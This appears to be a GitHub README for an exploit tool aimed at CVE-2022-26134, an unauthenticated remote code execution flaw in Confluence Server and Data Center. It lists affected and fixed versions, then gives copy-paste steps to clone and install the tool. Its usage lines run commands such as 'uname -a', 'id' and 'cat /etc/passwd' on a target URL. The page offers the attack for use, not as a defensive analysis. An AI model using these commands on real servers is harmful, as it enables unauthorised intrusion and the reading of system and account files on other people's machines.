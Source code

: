 <!--
![Repo views](https://gpvc.arturio.dev/nxtexploit)
-->


### CVE-2022-26134

Confluence Server and Data Center - CVE-2022-26134 - Critical severity unauthenticated remote code execution vulnerability




| Summary |CVE-2022-26134 - Critical severity unauthenticated remote code execution vulnerability <br> in Confluence Server and Data Center|
|---|---|
|Affected Products | Confluence Confluence Server Confluence Data Center|
|Affected Versions | All supported versions of Confluence Server and Data Center are affected.<br /> Confluence Server and Data Center versions after 1.3.0 are affected.|
|Fixed Versions | 7.4.17 <br /> 7.13.7 <br/> 7.14.3<br> 7.15.2<br/> 7.16.4 <br/> 7.17.4<br/> 7.18.1


### How to use:

Copy and Paste in terminal :
```bash
git clone https://github.com/nxtexploit/CVE-2022-26134 ; cd CVE-2022-26134 ; pip install -r requirements.txt
```

### For executing command on vulnerable target :

```python
python3 CVE-2022-26134.py https://target.com type-command-here
python3 CVE-2022-26134.py https://target.com "uname -a"
python3 CVE-2022-26134.py https://target.com "cat /etc/passwd"
python3 CVE-2022-26134.py https://target.com  id
```

![voter-co-Trim.gif](https://i.imgur.com/6kK2VES.png)
<p align="right"> <img src="https://komarev.com/ghpvc/?username=nxtexploit&style=flat&color=yellow" alt=cyan/> </p>
